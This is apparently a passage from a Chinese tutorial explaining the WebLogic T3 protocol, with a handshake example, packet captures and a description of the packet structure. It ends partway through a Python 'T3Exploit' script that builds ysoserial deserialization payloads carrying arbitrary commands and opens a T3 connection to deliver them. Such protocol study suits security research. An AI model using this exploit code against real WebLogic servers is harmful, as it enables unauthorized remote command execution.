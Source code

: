 ```
    port = 7001

    T3Test(ip,port)
```

请求包的头为

```
t3 12.2.1 AS:255 HL:19 MS:10000000 PU:t3://us-l-breens:7001
```

返回信息

![image-20220419220424523](images/5.png)

整个过程用wireshark抓包看看，选择VMnet8这张网卡

追踪TCP流

![image-20220419220520924](images/6.png)

看到最后的返回和脚本得到的结果是一样的，在HELO后面返回了应该版本号

这里看到的数据就是我们的请求头和响应头

## T3协议的组成

- 请求包头
- 请求主体

前面我们就只是发送了一个请求头，然后返回了一个响应头， 并没有发送一个请求主体

这里扒了一张图片来说明一下T3数据包的内容

![image-20220420150921622](images/7.png)



T3数据包分为七个部分，第一个部分是协议头，也就是

```
t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n
```

第二部分到第七部分都是序列化数据

可以通过如下脚本来看看包含请求主体的样子

```
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "ysoserial.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
```